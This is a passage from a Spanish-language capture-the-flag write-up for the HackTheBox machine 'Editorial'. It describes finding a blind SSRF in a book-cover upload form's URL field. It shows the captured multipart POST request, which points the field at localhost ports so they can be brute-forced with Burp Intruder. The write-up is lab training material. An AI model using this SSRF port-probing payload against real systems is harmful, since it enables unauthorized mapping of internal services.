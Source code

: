 ```
URL = http://editorial.htb/upload
```

Veremos que podemos subir un archivo y previsualizarlo en la foto de perfil del formulario a parte de que tambien se puede cargar una imagen desde una `URL`, el que mas nos va a interesar va a ser el de poner una `URL` ya que tiene pinta de que es vulnerable a `SSRF` y en este caso es un `Blind SSRF` por que si ponemos nuestra `IP` teniendo un servidor de `python` a la escucha en el mismo puerto `80` para que llegue una peticion veremos que funciona, pero poco podemos hacer, por lo que tendremos que ver algun puerto que haya abierto en la propia maquina utilizando `localhost` por lo que utilizaremos fuerza bruta con el `Intruder` del `BurpSuit`, capturaremos la peticion de la `URL`...

```
POST /upload-cover HTTP/1.1

Host: editorial.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------369402493640784425151506746531

Content-Length: 365

Origin: http://editorial.htb

Connection: close

Referer: http://editorial.htb/upload



-----------------------------369402493640784425151506746531

Content-Disposition: form-data; name="bookurl"



http://localhost:<PORT>/

-----------------------------369402493640784425151506746531

Content-Disposition: form-data; name="bookfile"; filename=""

Content-Type: application/octet-stream





-----------------------------369402493640784425151506746531--
```
